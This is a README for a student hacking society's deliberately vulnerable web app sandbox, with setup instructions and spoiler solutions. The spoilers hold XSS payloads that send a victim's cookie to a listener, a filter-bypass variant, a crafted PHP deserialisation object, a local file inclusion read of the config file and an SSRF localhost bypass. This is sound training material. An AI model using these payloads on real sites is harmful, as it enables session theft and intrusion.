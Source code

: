 # Web-Hacking-Demo
A web application hacking sandbox challenge for [Sheffield Ethical Student Hackers](https://shefesh.com). Covering insecure deserialisation, SSRF, XSS, and more

## Setup

### Manually

This works on an Ubuntu 20.04 EC2 image.

Install mysql:

```
sudo apt-get update
sudo apt install -y mysql-server php-mysql php7.4 apache2
```

Start service:
```sudo systemctl start mysql.service
```

Configure:
```
sudo mysql
> CREATE USER 'sesh'@'localhost' IDENTIFIED BY 'SESHPassword123!';
> CREATE DATABASE challenge;
> GRANT ALL PRIVILEGES ON challenge.* TO 'sesh'@'localhost' WITH GRANT OPTION;
> FLUSH PRIVILEGES;
> exit
```

Clone repository:

```
git clone https://github.com/Twigonometry/Web-Hacking-Demo.git
```

Seed:

```
mysql -u sesh -p < seed.sql
```

Copy files to apache directory:

```
cd Web-Hacking-Demo/
sudo cp -r * /var/www/html
```

Add password:

```
sudo htpasswd -b -c /etc/apache2/.htpasswd sesh SESHWebHackingPassword123
sudo cp apache2.conf /etc/apache2/apache2.conf
```

Restart apache:

```
sudo service apache2 restart
```

### With Docker

**NOTE**: The Dockerfile does not work, as the `mysqli_connect()` function does not run. This is a work in progress.

On EC2:

```
sudo yum update -y
sudo amazon-linux-extras install docker
sudo yum install docker
sudo service docker start
sudo systemctl enable docker
sudo usermod -a -G docker ec2-user
```

Restart session, then run:

```
sudo yum install git
git clone git@github.com:Twigonometry/Web-Hacking-Demo.git
cd Web-Hacking-Demo/
docker build -t web-hacking-demo .
docker run -dp 80:80 web-hacking-demo
```

To get a shell: `docker ps` for container id, then `docker exec -it [ID] /bin/sh`

## Login

Login to admin page:

`sesh_admin`:`mylongpassword123?`

## Exploit XSS

The `/reviews` page allows posting reviews. Click one of the sublinks to render the reviews using different levels of user input sanitisation, and see if you can steal an admin cookie.

NOTE: you will need to login as an admin and visit the reviews page in a new browser session (try an incognito tab) and refresh the page after you submit your XSS payload for this to work.

<details>

<summary>Spoilers</summary>

For the unsanitised version, you can create an XHR or fetch request to steal a cookie:

`<script>cookie = document.cookie; fetch('http://localhost:8001/?cookie=' + cookie).then(response => response.json()).then(data => console.log(data));</script>`

For the sanitised version, script and iframe tags are removed. You can use uppercase SCRIPT tags:

`<SCRIPT>cookie = document.cookie; fetch('http://localhost:8001/?cookie=' + cookie).then(response => response.json()).then(data => console.log(data));</SCRIPT>`

Or use an img:

`<img src=x onerror="this.src='http://localhost:8001/?'+document.cookie; this.removeAttribute('onerror');">`

</details>

## Exploit Deserialisation

The Recipes section has a deserialisation vulnerability that allows reading a secret recipe that would normally be encrypted. This challenge was repurposed from last year's CTF.

<details>

<summary>Spoilers</summary>

Read the source code for the `get-recipe.php` and `create-recipe.php` files using the LFI in the first form field (submit `../get-recipe.php` etc).

This shows us how to submit a new secret recipe: `http://[URL]/create-recipe.php?recipe_recipe=O:12:%22SecretRecipe%22:4:{s:9:%22encrypted%22;b:0;s:5:%22title%22;s:4:%22Test%22;s:8:%22contents%22;s:4:%22Test%22;s:2:%22id%22;i:1;}`

This string defines a serialised `SecretRecipe` instance that references the secret recipe we want to steal from the database, but sets `encrypted` to false.

We can then use the ID given to us by the application and submit it to the "Construct Recipe from String in Database" field, where it is deserialised: `http://localhost:8000/get-recipe.php?recipe=&id=&string_id=[ID]`.

</details>

## Exploit File Inclusion

There is a file inclusion vulnerability on `/recipe-hash`

<details>

<summary>Spoilers</summary>

The `recipe-hash.php` file has an `include` statement that includes the contents of the `?hash=` parameter.

To read the config file:

`http://[URL]/recipe-hash.php?hash_input=hello&hash=php://filter/convert.base64-encode/resource=config.php`

</details>

## Exploit Server-Side Request Forgery (SSRF)

Try to use `/page-viewer.php` to view the `/local-only.php` page.

<details>

<summary>Spoilers</summary>

There is an SSRF on `/page-viewer.php` which has a badly implemented filter.

The phrases `127.0.0.1` and `localhost` are blocked, but an alternative can be used such as `127.1`:

`http://127.1:8000/local-only.php`

</details>
